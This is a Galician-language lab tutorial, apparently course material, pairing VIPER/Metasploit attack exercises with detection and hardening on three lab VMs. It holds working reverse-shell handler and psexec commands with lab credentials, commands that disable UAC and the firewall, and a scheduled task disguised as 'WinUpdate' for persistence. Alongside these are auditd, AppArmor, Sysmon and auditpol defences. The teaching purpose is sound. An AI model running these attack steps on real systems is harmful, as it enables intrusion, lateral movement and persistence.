auditdé detallada.ausearch -iaxuda moito na interpretación. Para análises máis complexas, ferramentas comoaureportou a exportación a un SIEM son útiles. - Impacto no Rendemento: A auditoría intensiva pode ter un lixeiro impacto no rendemento do sistema. Monitoriza o teu sistema despois de aplicar regras extensivas.
Usando auditd desta maneira, podes obter un rexistro detallado da actividade dos procesos e as súas conexións de rede, o que é invaluable para a análise forense e a detección de intrusións como a execución dun payload malicioso.
Bastionado e Mitigación
1. Implementar un firewall robusto:
a. ufw
b. iptables
- 1. Bloquear conexións Reverse TCP
Para bloquear conexións de reverse TCP específicas, debes identificar o porto de saída utilizado. Normalmente, ferramentas como Metasploit usan portos como4444, pero VIPER pode configurarse con calquera porto.
Se queres bloquear todas as conexións de saída a un servidor específico (por exemplo, o C2 de VIPER):
- 2. Crear logs para detectar Reverse TCP
Crear logs detallados coniptablespara detectar calquera conexión sospeitosa. Os logs poden ser visualizados con:# dmesg | grep 'UFW BLOCK' [ 5317.987456] [UFW BLOCK] IN=enp0s8 OUT= MAC=08:00:27:ec:52:e4:08:00:27:0c:d4:a9:08:00 SRC=192.168.120.100 DST=192.168.120.101 LEN=180 TOS=0x00 PREC=0x00 TTL=64 ID=58544 DF PROTO=TCP SPT=4444 DPT=44780 WINDOW=501 RES=0x00 ACK PSH URGP=0 [ 5318.195056] [UFW BLOCK] IN=enp0s8 OUT= MAC=08:00:27:ec:52:e4:08:00:27:0c:d4:a9:08:00 SRC=192.168.120.100 DST=192.168.120.101 LEN=180 TOS=0x00 PREC=0x00 TTL=64 ID=58545 DF PROTO=TCP SPT=4444 DPT=44780 WINDOW=501 RES=0x00 ACK PSH URGP=0 # dmesg | grep "Reverse TCP Detection" [ 6031.908612] Reverse TCP Detection: IN= OUT=enp0s8 SRC=192.168.120.101 DST=192.168.120.100 LEN=196 TOS=0x00 PREC=0x00 TTL=64 ID=27356 DF PROTO=TCP SPT=59436 DPT=4444 WINDOW=501 RES=0x00 ACK PSH URGP=0 [ 6069.974689] Reverse TCP Detection: IN= OUT=enp0s8 SRC=192.168.120.101 DST=192.168.120.100 LEN=212 TOS=0x00 PREC=0x00 TTL=64 ID=27357 DF PROTO=TCP SPT=59436 DPT=4444 WINDOW=501 RES=0x00 ACK PSH URGP=0
Ou se estás usando journalctl:
journalctl -k | grep "Reverse TCP Detection"
abr 04 02:22:00 nodo01 kernel: Reverse TCP Detection: IN= OUT=enp0s8 SRC=192.168.120.101 DST=192.168.120.100 LEN=196 TOS=0x00 PREC=0x00 TTL=64 ID=27356 DF PROTO=TCP SPT=59436 DPT=4444 WINDOW=501 RES=0x00 ACK PSH URGP=0
abr 04 02:22:38 nodo01 kernel: Reverse TCP Detection: IN= OUT=enp0s8 SRC=192.168.120.101 DST=192.168.120.100 LEN=212 TOS=0x00 PREC=0x00 TTL=64 ID=27357 DF PROTO=TCP SPT=59436 DPT=4444 WINDOW=501 RES=0x00 ACK PSH URGP=0
- 3. Persistencia das regras de iptables
Para que as regras deiptablespersistan tras un reinicio: Para restaurar:
2. Uso de AppArmor para Previr a Execución de Payloads
AppArmor é un sistema de Control de Acceso Mandatorio (MAC) para Linux que permite restrinxir as capacidades dos programas. Podemos usalo para denegar a execución de ficheiros en directorios comúns onde os atacantes adoitan escribir payloads (como /tmp, /var/tmp, ou mesmo directorios de usuario).
a. Instalar Utilidades de AppArmor
Asegúrate de ter as ferramentas necesarias instaladas:
b. Crear o Ficheiro de Perfil de AppArmor
Crearemos un perfil personalizado en /etc/apparmor.d/. As barras / no nome do perfil substitúense por puntos ..
c. Engadir o Contido do Perfil
Pega o seguinte código no ficheiro aberto (local.deny-execute-unsafe-paths):
# /etc/apparmor.d/local.deny-execute-unsafe-paths
# Perfil local para denegar a execución en rutas comúns de descarga/temporais
# Incluír definicións globais (importante)
#include <tunables/global>
# Definir o perfil - Dálle un nome único con namespace 'local'
profile local:deny-execute-unsafe-paths flags=(attach_disconnected) {
# Incluír abstraccións básicas (recomendado)
#include <abstractions/base>
# --- Regras Principais de Denegación ---
# Denegar execución (mx) en /tmp e /var/tmp recursivamente
# m: memory map executable. Denegar para evitar técnicas de evasión comúns.
# x: Permiso de execución
# **: Coincide recursivamente con todos os ficheiros e directorios dentro
deny /tmp/** mx,
deny /var/tmp/** mx,
# --- Denegar execución en directorios home ---
# !!! danger "Restrinxir /home é Arriscado"
# Descomentar estas liñas pode romper aplicacións lexítimas (instaladores,
# scripts de usuario, etc.). PROBA EXTENSIVAMENTE en modo complain.
# Considere mellor restrinxir aplicacións específicas (navegador, correo).
# deny @{HOME}/** mx,
# deny /home/*/** mx, # Alternativa se @{HOME} non funciona como esperado
# Permitir outras operacións pode ser necesario se o perfil fose máis complexo,
# pero para un 'deny' explícito, non son estrictamente obrigatorias.
}
- Explicación:
deny ... mx,: Bloquea tanto a execución directa como a carga indirecta de código executáble para todos os ficheiros (**) dentro dos directorios especificados (/tmp/,/var/tmp/).- A sección para
@{HOME}está comentada por precaución.
d. Gardar e Pechar
En nano, preme Ctrl+O, Enter, e logo Ctrl+X.
e. Cargar o Perfil en Modo Complain
Probar Primeiro en Modo Complain
É crucial cargar primeiro o perfil en modo complain (queixarse). Neste modo, AppArmor rexistra as violacións das regras pero non as bloquea. Isto permíteche ver se o perfil interfire con operacións lexítimas do sistema antes de aplicalo de forma estrita.
# Cargar/Recargar o perfil no kernel e escribir na caché
apparmor_parser -r -W /etc/apparmor.d/local.deny-execute-unsafe-paths
# Poñer o perfil específico en modo complain
aa-complain local.deny-execute-unsafe-paths
local.deny-execute-unsafe-paths coincide co nome usado dentro do ficheiro de perfil.
f. Realizar Probas
- Crea un script simple ou copia un executable pequeno a
/tmp. - Dálle permisos de execución:
- Intenta executalo:
-
Revisa os Logs de AppArmor: Mentres o perfil está en modo complain, a execución debería funcionar, pero deberías ver mensaxes de violación nos logs do sistema indicando que AppArmor tería bloqueado a acción.
Busca entradas relacionadas co perfil# Busca mensaxes de AppArmor nos logs do sistema journalctl -f | grep -E 'apparmor="DENIED"|apparmor="ALLOWED" operation="exec"' # Tamén podes revisar /var/log/audit/audit.log ou /var/log/sysloglocal.deny-execute-unsafe-pathse a operación de execución (operation="exec",permission="execute") sobre o teu script en/tmp.journalctl non amosa nada pero audit.log si, por que?
É unha situación moi habitual e a razón principal adoita ser a forma en que
auditdejournaldinteractúan co subsistema de auditoría do kernel:-
AppArmor Xera Eventos de Auditoría do Kernel: Cando AppArmor toma unha decisión (PERMITIR/DENEGAR), non escribe directamente nun ficheiro de log. En cambio, xera un evento a través do subsistema de auditoría do kernel de Linux (o mesmo que usa
auditdpara monitorizar chamadas ao sistema). -
auditdé o Consumidor Principal (se está activo): O daemonauditdestá deseñado especificamente para escoitar e rexistrar estes eventos de auditoría do kernel. Candoauditdestá instalado, activo e configurado correctamente (o cal é o caso por defecto cando o instalas), convértese no receptor principal e moitas veces exclusivo destes eventos. Leos directamente do kernel e escríbeos no seu propio ficheiro de log:/var/log/audit/audit.log. -
journalde os Eventos de Auditoría: O daemonjournald(o backend dejournalctl) tamén recolle mensaxes do kernel (a través deprintk//dev/kmsg). En teoría, podería ver os eventos de auditoría que AppArmor xera. Porén:- Preferencia de
auditd: O sistema está deseñado para que, seauditdestá activo, el teña prioridade para procesar os eventos de auditoría. Nalgúns casos, o kernel pode enviar os eventos só aauditdcando está configurado como o sistema de auditoría activo, e non os duplica ao fluxo normal de mensaxes do kernel (printk) do que lejournald. - Configuración de
auditd: A configuración deauditd(/etc/audit/auditd.conf) e as regras cargadas (auditctl) poden influír en como se manexan os eventos. Seauditdestá en modo "inmutable" (auditctl -e 2) ou simplemente activo (auditctl -e 1), o kernel entende queauditdé o destino principal. - Posible Filtrado en
journald(Menos probable): Aínda quejournaldvise os eventos, podería haber regras de filtrado ou rate-limiting (aínda que é menos común para eventos de seguridade como os de AppArmor).
- Preferencia de
-
O Comando
grep: O teu comandogrepparajournalctl(grep -E 'apparmor="DENIED"|apparmor="ALLOWED" operation="exec"') busca cadeas específicas que aparecen dentro do rexistro de auditoría. Sejournaldnon está recibindo eses rexistros en primeiro lugar, ogrepnon atopará nada. O formato en/var/log/audit/audit.logé o formato nativo de auditoría, que contén esas cadeas exactas.
En Resumo:
A razón máis probable pola que ves os logs de AppArmor en
/var/log/audit/audit.logpero non conjournalctlé porqueauditdestá activo e está interceptando/consumindo os eventos de auditoría do kernel directamente, antes ou en lugar de que cheguen ao fluxo de mensaxes do kernel quejournaldmonitoriza.Que facer?
- Confía en
auditdpara os logs de AppArmor: Candoauditdestá activo, a forma estándar e máis fiable de ver os eventos de AppArmor (e outros eventos de auditoría) é usar as ferramentas deauditd:ausearch -m avc -ts recent(Busca eventos específicos de AppArmor/SELinux recentes)ausearch -m apparmor -ts recent(Se o teu sistema etiqueta especificamente AppArmor)tail -f /var/log/audit/audit.log | grep -i apparmor(Monitoriza o ficheiro directamente)
- Verifica o estado de
auditd: - Se realmente queres os logs en
journald: Poderías deter ou desactivarauditd(systemctl stop auditd && systemctl disable auditd). Nese caso, os eventos de auditoría do kernel deberían empezar a aparecer enjournalctl(xa que non habería un consumidor principal interceptándoos). Non obstante, isto desactiva todo o sistema de auditoría deauditd, o cal non adoita ser recomendable por razóns de seguridade. Unha alternativa sería configuraraudispd-plugins(comoaudisp-remoteou outros) para reenviar eventos desdeauditda outros sistemas, ou configurarrsyslogpara ler o ficheiroaudit.log, pero iso complica a configuración.
-
g. Activar o Modo Enforce
Se as probas en modo complain foron satisfactorias e non detectaches o bloqueo de procesos lexítimos, podes activar o modo enforce (forzar):
Agora, calquera intento de executar un ficheiro directamente desde /tmp ou /var/tmp debería fallar cun erro de "Permission denied".
Limitacións e Consideracións
- Intérpretes vs. Binarios: Este perfil bloquea a execución directa (
./meu_script), pero non necesariamente a execución a través dun intérprete permitido (bash /tmp/meu_script.sh). Para iso, necesitarías perfís máis específicos para os intérpretes. - Complexidade con
/home: Bloquear a execución no directoriohomeé complexo e pode romper funcionalidades. É xeralmente mellor restrinxir aplicacións individuais (como navegadores) que poidan descargar e tentar executar payloads. - Combinación de Defensas: AppArmor é unha capa de seguridade. Combínaa con permisos de ficheiros adecuados, opcións de montaxe de sistemas de ficheiros como
noexeconde sexa aplicable, e outras boas prácticas de seguridade.
Exemplo 2: Movemento Lateral (Expandir Acceso)
Prerrequisito: Facer Exemplo1
Arquitectura do Escenario de Movemento Lateral
Asumimos que o atacante xa comprometeu VM-2 (ver Exemplo 1) e agora quere acceder a outros sistemas (VM-3) na mesma rede interna.
Escenario Resumido
VM-1(VIPER):192.168.120.100(Centro de control, onde está VIPER conmsfconsole).VM-2(Debian con payload activo):192.168.120.101(Acceso logrado dendeVM-1a través dunMeterpreteractivo).VM-3(Windows 10 Enterprise Evaluation):192.168.120.102(Portos abertos:135,139,445, con credenciais válidasusuario/abc123).
Obxectivo: Movemento lateral dende VM-2 cara VM-3.
Paso 1: Acceso á VM-2 (Payload activo)
Execución dende VM-1 (msfconsole - VIPER)
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.120.100
set LPORT 4444
run
Execución dende VM-2 (Bash - Linux)
Agora deberías ter acceso á VM-2 a través de meterpreter.
Paso 2: Movemento lateral cara VM-3
Movemento Lateral vs. Pivoting
Movemento Lateralé a técnica de moverse dun sistema a outro dentro da mesma rede comprometida sen utilizar ningún tipo de proxy ou túnel.Pivotingimplica crear un proxy ou túnel para acceder a redes que non son directamente accesibles.
Neste escenario, imos asumir que VM-2 pode comunicarse directamente con VM-3 a través da rede (192.168.120.0/24). Non se está utilizando Pivoting, só Movemento Lateral.
Escaneo de VM-3 dende VM-2
Lembrar que estamos dentro dunha consola meterpreter
De aí que ao rematar a enumeración executemos o comando exit para voltar á consola mfsconsole
-
Comprobar conectividade e Enumerar sistema operativo mediante TTL (64→Linux, 128→Windows)
-
Enumerar portos TCP open
Paso 3: Movemento Lateral con Psexec (SMB)
Desactivar UAC e Firewall en Windows (modo laboratorio)
Para contornas de proba ou laboratorio, podes desactivar o UAC e o firewall de Windows Server ou Windows 10 cos seguintes comandos. Executa o terminal como administrador.
Desactivar UAC (User Account Control):
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA /t REG_DWORD /d 0 /f
shutdown /r /t 0
Isto modifica o rexistro para desactivar completamente o UAC. Requírese reinicio.
Desactivar o firewall en todos os perfís (dominio, privado, público):
Isto desactiva o firewall de Windows para todos os perfís. Útil para asegurar que nada bloquea SMB, psexec, ou conexións remotas.
Nota: Estes cambios reducen significativamente a seguridade do sistema. Úsaos só en contornas de laboratorio ou máquinas illadas.
Execución dende VM-1 (msfconsole - VIPER)
use exploit/windows/smb/psexec
set RHOSTS 192.168.120.102
set SMBUser usuario
set SMBPass abc123.
set LHOST 192.168.120.100
set LPORT 5555
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
Paso 4: Verificar Acceso á VM-3
Execución dende VM-1 (msfconsole - VIPER)
Podemos acceder tamén por interface gráfica de VIPER:


Exemplo 3: Persistencia
Prerrequisito: Facer Exemplo1 e Exemplo2
Imos establecer unha persistencia en Windows 10 tras obter unha sesión meterpreter con psexec. A persistencia permite reconexión automática tras reinicios mediante unha tarefa programada.
Persistencia en Windows con Metasploit tras acceso con psexec
Paso 1: Acceder á máquina vítima con psexec
use exploit/windows/smb/psexec
set RHOSTS 192.168.120.102
set SMBUser usuario
set SMBPass abc123.
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.120.100
set LPORT 5555
run
Paso 2: Poñer a sesión meterpreter en background
Paso 3: Iniciar un multi/handler para recibir a persistencia
Dende a lapela Msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.120.100
set LPORT 6666
set ExitOnSession false
run
Paso 4: Xerar o payload para persistencia
- No Dashboard de VIPER, vai á sección de
Handler&Payload. - Na sección de
Generate Payload, selecciona o handler creado. - Elixe o formato do payload (p.ex.,
elfpara Linux,exepara Windows). - Descarga o payload xerado.
- Premer en Generate Payload para descargar o payload xerado.

Paso 5: Subir o payload a VM-3 e crear unha tarefa programada na vítima(VM-3)
Copiar no contedor docker de viper o payload en /tmp
Abrir na GUI unha consola dende a conexión establecida no porto 5555
Sube o ficheiro ao equipo vítima Windows
Para garantir que unha tarefa programada se execute mesmo cando o equipo está en batería, é recomendable creala usando un ficheiro XML personalizado con configuracións avanzadas.
- Crear un ficheiro
task.xmlco seguinte contido
execute -f cmd.exe -a '/c wmic useraccount where name="usuario" get sid > C:\Windows\Temp\sidinfo.txt' cat C:\Windows\Temp\sidinfo.txt
echo '<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<RegistrationInfo>
<Description>Execución persistente con batería permitida</Description>
<Author>Microsoft Corporation</Author>
</RegistrationInfo>
<Triggers>
<LogonTrigger>
<Enabled>true</Enabled>
</LogonTrigger>
</Triggers>
<Principals>
<Principal id="Author">
<UserId>S-1-5-21-2901123646-3497879057-3457833120-1001</UserId>
<LogonType>InteractiveToken</LogonType>
<RunLevel>HighestAvailable</RunLevel>
</Principal>
</Principals>
<Settings>
<DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
<StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
<AllowStartOnDemand>true</AllowStartOnDemand>
<StartWhenAvailable>true</StartWhenAvailable>
<Enabled>true</Enabled>
<Hidden>false</Hidden>
</Settings>
<Actions Context="Author">
<Exec>
<Command>C:\Windows\Temp\shell.exe</Command>
</Exec>
</Actions>
</Task>' > /home/usuario/Descargas/task.xml
- Subir mediante
uploaddendemeterpretero ficheirotask.xmlaC:\Users\usuario\task.xml. Previamente debemos copiar ese ficheiro a contedor docker de viper:
- Crear a tarefa programada a partir do ficheiro
execute -f powershell.exe -a "-Command schtasks /create /tn 'WinUpdate' /xml C:\Users\usuario\task.xml"

Esta tarefa:
- Executarase ao login
- Con privilexios elevados
- Mesmo con batería
- Chamará ao ficheiro payload.exe especificado
Paso 6: Probar ou agardar reconexión
Probar na sesión actual executando a tarefa programada:
ou reiniciar e a sesión será recibida no handler tras login do usuario:
Resumo
VM-2(Debian) foi comprometida cun payload (Meterpreter).- Realizouse Movemento Lateral dende
VM-2caraVM-3sen empregar Pivoting, usando credenciais válidas (usuario/abc123). - Obtívose acceso a
VM-3mediantepsexec. - Conseguiuse persistencia mediante a subida dun payload e a creación dunha tarefa programada.
Movemento Lateral vs. Pivoting
Movemento Lateralé a técnica de moverse dun sistema a outro dentro da mesma rede comprometida sen utilizar ningún tipo de proxy ou túnel.Pivotingimplica crear un proxy ou túnel para acceder a redes que non son directamente accesibles.
Neste caso só se realizou Movemento Lateral, non Pivoting.
Monitorización do Movemento Lateral desde VM-2 a VM-3
Detección de conexións sospeitosas en VM-3 (Windows 10)
-
Uso de
netstatpara listar as conexións activas e escoitando: -
Identificar procesos asociados a conexións abertas con
tasklist: -
Monitorización con
Sysmon:Ficheiros a descargar
Para poder descargar as ferramentas necesarias é preciso copiar estas ferramentas en VM-3, ou darlle conexión a Internet a VM-3.
Sysmon (System Monitor) é unha ferramenta de Microsoft Sysinternals que permite rexistrar eventos de seguridade avanzados en sistemas Windows, como execucións de procesos, modificacións de rexistro, conexións de rede, etc.
Instalación:
-
Descarga desde a páxina oficial:
https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon -
Instala cun ficheiro de configuración personalizado:
O ficheiro
config.xmlcontén as regras que definen que eventos se rexistran. Podes usar unha configuración xa feita (como a de SwiftOnSecurity) ou crear a túa. -
Sysmon e o Visor de Eventos
Podes visualizar os eventos de Sysmon usando a interface gráfica de Windows:
A. Abre o Event Viewer (preme
Win + R, escribeeventvwre preme Enter).
B. No panel esquerdo, navega a:
Visor de eventos → Registros de aplicacións e servizos → Microsoft → Windows → Sysmon → OperationalPodes aplicar filtros ou gardar vistas personalizadas para centrarte en tipos concretos de eventos, como execución de procesos, cambios en rexistro, ou tráfico de rede sospeitoso.
-
Visualizar movemento lateral con Sysmon no Visor de Eventos
Eventos clave que delatan movemento lateral:
Evento Sysmon Descrición Indicio de movemento lateral 1Creación de proceso Execución de psexec.exe,cmd.exe,schtasks.exe,payload.exe3Conexión de rede Conexións a portos 445,135,5555,666611Acceso a ficheiros Copia ou execución en Temp,AppData, etc.13,14Cambios no rexistro Rexistro de execucións automáticas ( Run,RunOnce)Exemplo 1: Detectar reconexión con VIPER
- Abre o Visor de Eventos
- Vai a
Sysmon > Operational -
Buscar por:
- Porto de conexión a VIPER: 6666 → Evento
3
- Conexión de saída a
192.168.120.100(VIPER) → Evento3
- Execución de
payload.exe→ Eventos1e3
- Porto de conexión a VIPER: 6666 → Evento
Exemplo 2: Detectar executables en execución
- Abre o Visor de Eventos
- Vai a
Sysmon > Operational -
Buscar por:
- Executables
.exe→ Evento1
- Executables
Exemplo 3: Execución de tarefa programada con persistencia
Detectar execución de tarefas programadas con Sysmon
Para detectar cando se executa
schtasks.exe, podes engadir unha regra personalizada no ficheiroconfig.xmlde Sysmon.Regra engadida
Esta regra debe incluírse no ficheiro
config.xmldentro dunha nova secciónProcessCreate onmatch="include", despois da regra actualonmatch="exclude":<!-- Custom rule: Detect execución de tarefas programadas --> <ProcessCreate onmatch="include"> <Image condition="end with">schtasks.exe</Image> </ProcessCreate>Aplicar a nova configuración en Sysmon
A partir dese momento, cada execución de
schtasks.exeaparecerá como evento ID 1 (ProcessCreate) no logMicrosoft-Windows-Sysmon/Operational. Así, eliminamos a tarefa programada e xeramos de novo a tarefa programada, polo que ambas accións serán rexistradas en sysmon.Execución de tarefas programadas
Se provocamos un reinicio como comando
shutdown /r /t 0para que ao iniciar sesión co usuario execútese a tarefa programada esta acción non será "capturada" porsysmonxa queschtasks.essoamente dispara eventos na eliminación/creación de tarefas e non na execución destas.Isto é útil para identificar persistencia baseada en tarefas programadas no contexto dun movemento lateral ou post-explotación.
- Abre o Visor de Eventos
- Vai a
Sysmon > Operational -
Buscar por:
-
schtasks → Evento
1
-
svchost.exe -k netsvcs -p -s Schedule → Evento
1
Filtrar po ID:
-
Evento
11: Execución ou acceso a tarefa programada persistenteEventos
13/14para entradas no rexistro (Run key)
-
-
-
Uso de wevtutil para consultar eventos
wevtutilé unha ferramenta de liña de comandos integrada en Windows que permite consultar, exportar e xestionar logs de eventos do sistema.wevtutilxa vén preinstalado en todas as versións modernas de Windows, non é necesario instalar nada adicional.Para consultar os eventos de Sysmon directamente:
Para exportar os eventos a un ficheiro
.evtx:
Bastionado e mitigación da VM-3 (Windows 10)
Activar UAC e Firewall en Windows (modo produción)
Para contornas de proba ou laboratorio, anteriormente, desactivamos o UAC e o firewall de Windows 10. Para a contorna de produción deberiamos activalos cos seguintes comandos. Executa o terminal como administrador.
Activar UAC (User Account Control):
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA /t REG_DWORD /d 1 /f
shutdown /r /t 0
Isto modifica o rexistro para activar completamente o UAC. Requírese reinicio.
Activar o firewall en todos os perfís (dominio, privado, público):
Isto activa o firewall de Windows para todos os perfís. Útil para asegurar o bloqueo SMB, psexec, ou conexións remotas.
Nota: Estes cambios aumentan significativamente a seguridade do sistema. Úsaos sempre, a non ser, que queiras traballar sen estas medidas de seguridade en contornas de laboratorio ou máquinas illadas.
Configuración de Firewall para bloquear movemento lateral
netsh advfirewall set allprofiles state on
netsh advfirewall firewall add rule name="Block Lateral Movement" protocol=TCP dir=IN localport=445,135,139 action=block
netsh advfirewall firewall add rule name="Block Lateral Movement" protocol=TCP dir=OUT localport=445,135,139 action=block
netsh advfirewall show allprofiles
Comprobando en VM-1 (Viper)
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 192.168.120.100:5555
[*] 192.168.120.102:445 - Connecting to the server...
[-] 192.168.120.102:445 - Exploit failed [unreachable]: Rex::ConnectionTimeout The connection with (192.168.120.102:445) timed out.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) >
Hardenización de Servizos Windows
- Desactivar SMBv1 (protocolo obsoleto e vulnerable):
-
Desactivar completamente o acceso por Escritorio Remoto (RDP) ao sistema:
-
Activar Control de Contas de Usuario (UAC):
Requírese reinicio
E para garantir que o sistema sempre mostre o aviso UAC ao usuario, aínda que o usuario sexareg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA /t REG_DWORD /d 1 /fadministrador, requirindo confirmación manual para evitar execucións automáticas ou ocultas con privilexios:
Panel de control\Sistema y seguridad\Seguridad y mantenimiento
- Panel de control\Sistema y seguridad\Seguridad y mantenimiento\Cambiar la configuración de Seguridad y mantenimiento
- Cambiar configuración de Control de cuentas de usuario

Comprobando en VM-1 (Viper) tras reiniciar VM-3
Agora non se crea a Reverse Shell: meterpreter a través do porto TCP 6666
Aplicar Políticas de Seguridade mediante gpedit.msc
-
Desactivar autenticacións débiles (LM, NTLMv1) e aplicar restriccións á autenticación NTLM:
- Presionar
Win + Re escribirgpedit.msc. - Navegar a:
Configuración del equipo > Configuración de Windows > Configuración de seguridad > Directivas locales > Opciones de seguridad. - Desactivar LM e NTLMv1:
- Configurar
Seguridad de red: Nivel de autenticación de LAN ManagercomoEnviar solo respuesta NTLMv2 y rechazar LM y NTLM.
- Configurar
- Restrinxir NTLM:
- Configurar
Seguridad de red: Restringir NTLM: Tráfico NTLM entrantecomoDenegar todas las cuentas. - Configurar
Seguridad de red: Restringir NTLM: Tráfico NTLM saliente a servidores remotoscomoDenegar todo.
- Configurar
- Reiniciar o sistema para aplicar os cambios.
- Presionar
-
Configurar permisos de acceso local e remoto soamente para usuarios autorizados:
- Presionar
Win + Re escribirgpedit.msc. - Navegar a:
Configuración del equipo > Configuración de Windows > Configuración de seguridad > Directivas locales > Asignación de derechos de usuario. - Configurar as políticas:
Permitir el inicio de sesión local: Agregar soamente os usuarios que necesitan acceso físico ao sistema.Permitir inicio de sesión a través de Servicios de Escritorio Remoto: Agregar soamente os usuarios ou grupos autorizados para acceso remoto.Denegar el inicio de sesión localeDenegar inicio de sesión a través de Servicios de Escritorio Remoto: Agregar usuarios non autorizados.
- Reiniciar o sistema para aplicar os cambios.
- Presionar
En Directivas Locales: A denegación de inicio de sesión prevalece sobre o permiso
En Windows, cando se configuran as políticas de inicio de sesión local ou remoto mediante gpedit.msc, é posible que un mesmo usuario ou grupo figure tanto nas directivas de permiso como nas de denegación. Neste caso, a política de denegación sempre prevalece.
Exemplo
Se o usuario invitado está configurado así:
Permitir el inicio de sesión a través de Servicios de Escritorio RemotoDenegar el inicio de sesión a través de Servicios de Escritorio Remoto
Resultado: invitado non poderá acceder por Escritorio Remoto, porque a política de denegación ten prioridade.
Isto permite aos administradores crear excepcións ou restricións específicas, mesmo se o usuario está nun grupo con acceso.
Monitoreo Continuo con Auditpol
Que é auditpol?
auditpol é unha ferramenta de liña de comandos incluída en sistemas operativos Windows que permite consultar e configurar as políticas de auditoría de seguridade do sistema.
Estas políticas definen que tipos de eventos se rexistran no Visor de Eventos, como:
- Logons e logoffs
- Cambios en contas de usuario ou privilexios
- Acceso a obxectos sensibles (ficheiros, rexistro...)
auditpol é especialmente útil para garantir que o sistema cumpre con políticas de seguridade e auditoría, e para detectar cambios non autorizados ou anómalos nas configuracións de control de eventos.
auditpol /get /category:* > C:\audit-settings_%date:~6,4%-%date:~3,2%-%date:~0,2%_%time:~0,2%-%time:~3,2%.txt
Este comando realiza o seguinte:
- Exporta todas as configuracións de auditoría actuais do sistema.
- Gárdaas nun ficheiro de texto cuxo nome inclúe a data e a hora no formato YYYY-MM-DD_HH-MM.
- Este método permite ter un rexistro histórico de cambios na configuración de auditoría ao longo do tempo.
Exemplo de ficheiro xerado: audit-settings_2025-04-18_18-37.txt
Recomendación: Executar este comando regularmente e comparar as configuracións antigas coas actuais para detectar modificacións non autorizadas.
-
Análise da configuración de auditoría do sistema con auditpol
O ficheiro xerado por
auditpol /get /category:*mostra que eventos de seguridade están sendo rexistrados actualmente en Windows. Isto é fundamental para saber se o sistema está preparado para detectar accións sospeitosas como movemento lateral ou persistencia.C:\Users\usuario>more c:\audit-settings_2025-04-18_18-37.txt Directiva de auditoría del sistema Categoría o subcategoría Configuración Sistema Extensión del sistema de seguridad Sin auditoría Integridad del sistema Aciertos y errores Controlador IPsec Sin auditoría Otros eventos de sistema Aciertos y errores Cambio de estado de seguridad Aciertos Inicio/cierre de sesión Inicio de sesión Aciertos y errores Cerrar sesión Aciertos Bloqueo de cuenta Aciertos Modo principal de IPsec Sin auditoría Modo rápido de IPsec Sin auditoría Modo extendido de IPsec Sin auditoría Inicio de sesión especial Aciertos Otros eventos de inicio y cierre de sesiónSin auditoría Servidor de directivas de redes Aciertos y errores Notificaciones de usuario o dispositivo Sin auditoría Pertenencia a grupos Sin auditoría Acceso de objetos Sistema de archivos Sin auditoría Registro Sin auditoría Objeto de kernel Sin auditoría SAM Sin auditoría Servicios de certificación Sin auditoría Aplicación generada Sin auditoría Manipulación de identificadores Sin auditoría Recurso compartido de archivos Sin auditoría Colocación de paquetes de Plataforma de filtradoSin auditoría Conexión de Plataforma de filtrado Sin auditoría Otros eventos de acceso a objetos Sin auditoría Recurso compartido de archivos detalladoSin auditoría Almacenamiento extraíble Sin auditoría Almacenamiento provisional de directiva centralSin auditoría Uso de privilegios Uso de privilegio no confidencial Sin auditoría Otros eventos de uso de privilegio Sin auditoría Uso de privilegio confidencial Sin auditoría Seguimiento detallado Creación del proceso Sin auditoría Finalización del proceso Sin auditoría Actividad DPAPI Sin auditoría Eventos de RPC Sin auditoría Eventos Plug and Play Sin auditoría Eventos de ajuste de derecho de token Sin auditoría Cambio de plan Cambio en la directiva de auditoría Aciertos Cambio de la directiva de autenticación Aciertos Cambio de la directiva de autorización Sin auditoría Cambio de la directiva del nivel de reglas de MPSSVCSin auditoría Cambio de la directiva de Plataforma de filtradoSin auditoría Otros eventos de cambio de directivas Sin auditoría Administración de cuentas Administración de cuentas de equipo Sin auditoría Administración de grupos de seguridad Aciertos Administración de grupos de distribuciónSin auditoría Administración de grupos de aplicacionesSin auditoría Otros eventos de administración de cuentasSin auditoría Administración de cuentas de usuario Aciertos Acceso DS Acceso del servicio de directorio Sin auditoría Cambios de servicio de directorio Sin auditoría Replicación de servicio de directorio Sin auditoría Replicación de servicio de directorio detalladaSin auditoría Inicio de sesión de la cuenta Operaciones de vales de servicio KerberosSin auditoría Otros eventos de inicio de sesión de cuentasSin auditoría Servicio de autenticación Kerberos Sin auditoría Validación de credenciales Sin auditoríaQue está ben configurado neste sistema
- Integridade do sistema: rexístranse acertos e erros → útil para cambios no núcleo.
- Inicio e peche de sesión: rexístranse logins exitosos e fallidos.
- Administración de contas: cambios en usuarios e grupos son rexistrados.
- Cambios na política de seguridade: activado.
Problemas detectados (auditoría desactivada)
- Creación de procesos (
Creación del proceso): sen rexistro → crítico para detectar execución de binarios. - Acceso a obxectos (rexistro, ficheiros, SAM, etc.): todo está en “Sen auditoría”.
- Uso de privilexios sensibles (
SeDebugPrivilege, etc.): sen rexistro. - Seguimento detallado en xeral: desactivado → impide detección forense completa.
Conclusión
Esta configuración é mínima pero funcional para logins e cambios de contas, pero non detectará execucións de ferramentas como
schtasks.exe,cmd.exe,payload.exe, etc.. Para visibilidade completa, recoméndase:-
Activar auditoría de creación de procesos
Isto permite rexistrar cada proceso novo lanzado no sistema, útil para detectar execucións de ferramentas como
cmd.exe,powershell.exe,schtasks.exeou payloads. -
Activar auditoría de acceso ao rexistro
Recomendado para detectar manipulacións persistentes a través de claves como
Run,RunOnce,Winlogon, etc. -
Activar auditoría de uso de privilexios
